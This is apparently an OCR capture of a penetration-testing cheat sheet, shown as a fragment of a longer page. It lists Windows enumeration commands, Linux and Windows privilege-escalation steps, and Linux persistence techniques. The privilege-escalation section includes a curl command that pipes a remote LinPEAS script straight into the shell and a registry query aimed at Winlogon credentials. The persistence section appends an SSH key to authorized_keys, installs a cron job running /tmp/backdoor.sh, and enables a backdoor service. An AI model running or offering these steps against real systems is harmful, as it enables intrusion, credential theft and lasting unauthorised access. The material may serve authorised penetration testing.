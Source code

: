**Windows Target:**
```powershell
# System information
systeminfo
whoami /priv
net user
net localgroup administrators

# Service enumeration
sc query
wmic service list brief

# Network connections
netstat -ano
```

### 2. Privilege Escalation

**Linux Privilege Escalation:**
```bash
# LinPEAS automated enumeration
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Manual checks
sudo -l                    # Check sudo permissions
cat /etc/crontab          # Check cron jobs
find / -name "*.conf" 2>/dev/null | grep -E "(apache|nginx|mysql)"
```

**Windows Privilege Escalation:**
```powershell
# WinPEAS enumeration
.\winPEAS.exe

# Manual checks
whoami /priv
net localgroup
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

### 3. Persistence

**Linux Persistence:**
```bash
# Add SSH key
mkdir ~/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> ~/.ssh/authorized_keys

# Cron job persistence
echo "*/5 * * * * /tmp/backdoor.sh" | crontab -

# Service persistence
cp /tmp/backdoor /usr/local/bin/
systemctl enable backdoor.service
```
